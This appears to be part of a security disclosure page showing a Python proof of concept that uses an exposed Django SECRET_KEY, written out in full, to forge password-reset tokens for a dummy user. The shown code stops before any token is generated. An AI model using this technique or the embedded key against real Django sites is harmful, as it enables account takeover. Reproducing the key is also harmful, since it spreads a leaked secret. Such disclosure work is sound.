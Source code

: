 ### Password Reset Token Generation

![Screenshot showing Successfull_sessionforge_attack in settings.py](passwd.png)
```python
#!/usr/bin/env python3
"""
PoC: Password Reset Token Generation using exposed SECRET_KEY (fixed)
Configures minimal Django settings and implements a DummyUser with
the methods expected by PasswordResetTokenGenerator.
WARNING: do NOT publish real SECRET_KEY or real tokens. Redact before publishing.
"""

from django.conf import settings
import datetime

# Replace with the real key only in private evidence folders (do not commit!)
# For public screenshots, set a placeholder like 'REDACTED-FOR-PUBLIC-SCREENSHOT'
SECRET_KEY = 'django-insecure-vsxlkoda(-#mhn81#)vd(^5fojxq6hr0vd-$siv3z9!5t@z$ai'

# Minimal runtime config so Django functions used here don't raise errors:
if not settings.configured:
    settings.configure(
        SECRET_KEY=SECRET_KEY,
        SECRET_KEY_FALLBACKS=[SECRET_KEY],
        USE_TZ=True,
    )

from django.contrib.auth.tokens import PasswordResetTokenGenerator

# Dummy user implementing expected API by PasswordResetTokenGenerator:
class DummyUser:
    def __init__(self, pk=1, password='pbkdf2_sha256$260000$EXAMPLE$FAKEHASH',
                 email='user@example.com', last_login=None, is_active=True):
        self.pk = pk
        self.id = pk
        self.password = password
        self.email = email
        # last_login expected to be datetime or None
        self.last_login = last_login
        self.is_active = is_active

    # Some code paths call get_email_field_name()
    def get_email_field_name(self):
        return 'email'

    # __str__ helps with logging if printed
    def __str__(self):
        return f"<DummyUser pk={self.pk} email={self.email}>"

# Create a dummy user (private testing). Do NOT use a real user's data here.
user = DummyUser(
    pk=1,
    password='pbkdf2_sha256$260000$EXAMPLE$FAKEHASH',
```